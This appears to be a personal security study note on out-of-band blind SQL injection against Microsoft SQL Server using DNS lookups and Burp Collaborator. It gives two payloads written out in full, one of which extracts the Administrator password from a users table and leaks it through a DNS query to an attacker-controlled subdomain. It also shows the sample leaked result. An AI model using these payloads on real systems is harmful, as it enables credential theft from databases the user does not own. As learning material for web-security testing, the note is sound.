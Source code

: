 Some applications process their SQL query asynchronously, which means that the application process the user's request in the original thread, and uses another thread to execute a SQL query. So, using [time-delay SQL injection attack](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FSQL%20Injection%2FBlind%20SQL%20Injection%2FBlind%20SQLi%20by%20Triggering%20Time%20Delays) won't work in this scenario.

However, an attacker can still exploit a SQL injection vulnerability by triggering out-of-band network interactions to a system that they control. A variety of network protocols can be used for this attack, but typically the most effective is DNS, as most production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The easiest and most reliable tool for using out-of-band techniques is [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator), which allows you to detect when network interaction occurs. For example, using the following technique on an application running Microsoft SQL server, will cause a DNS query:
```txt
productId='; exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'--
```
This will cause the database to perform a DNS lookup on your Burp Collaborator domain.

Additionally, you can use the following payload to use out-of-band channel to exfiltrate data:
```txt
productId=1'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')--
```
This will trigger a DNS lookup with the following results:
```txt
p@$$w0rd.BURP-COLLABORATOR-SUBDOMAIN
```
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.